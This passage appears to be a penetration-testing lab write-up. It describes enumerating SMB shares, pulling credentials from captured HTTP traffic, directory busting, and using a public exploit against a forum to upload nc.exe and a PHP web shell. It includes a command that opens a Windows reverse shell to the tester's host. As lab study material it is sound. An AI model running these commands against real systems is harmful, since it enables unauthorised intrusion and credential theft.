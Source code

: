 We enumerate the shares

```bash
proxychains enum4linux -a 172.16.1.17
```

We find a share called `forensics`. Let's mount it and see.
We find a monitor file, use `get` to download it.

use strings to read it, it looks like http requests and responses, maybe there's a login creds somewhere in here but it's too long to read

So we move the strings output

```bash
strings monitor >> readable
cat readable | grep "pass"
```

We find 2 login attempts and one of the creds work for the webmin portal in port `10000` 

We find shell in `other` and check the dir to find `flag.txt` (We are already root) and a `pcap` file, couldn't download it for now.

## Let's take this discussion elsewhere

Let's go with `172.16.1.13` , there's only web pages in it so we go with directory busting

```bash
wfuzz -u "http://172.16.1.13/FUZZ" -w /usr/share/wordlists/dirb/common.txt --hc 404
```

We find one called `/discuss`

It's a technical discussion forum, didn't find anything like what it's built with or anything, so just googled `Technical Discussion forum Exploit` and got an exploit-db link.

https://www.exploit-db.com/exploits/48512

So we follow the instructions to get a reverse shell. Turns out not all shells are being uploaded and with a normal `?cmd` not all commands are being executed, some kind of filtering maybe we google AV bypass shells.

My bad it's not that the commands are being limited but it was a fucking windows machine now I have to look for windows reverse shells. So what we do is upload (was taking in files when we register/sign-in) at `nc.exe` and use it to do a reverse shell.

We also have to upload a shell.php which we can use to execute the scripts.

```HTML
/discuss/ups/shell.php?cmd=nc.exe 10.10.14.23 1210 -e C:\Windows\System32\cmd.exe
```

We can find the flag on Desktop, We can get admin privileges and find passwords but I'm bad at windows priv esc so I kinda skipped this.

## Compare my numbers

After a week break and read up on windows priv esc
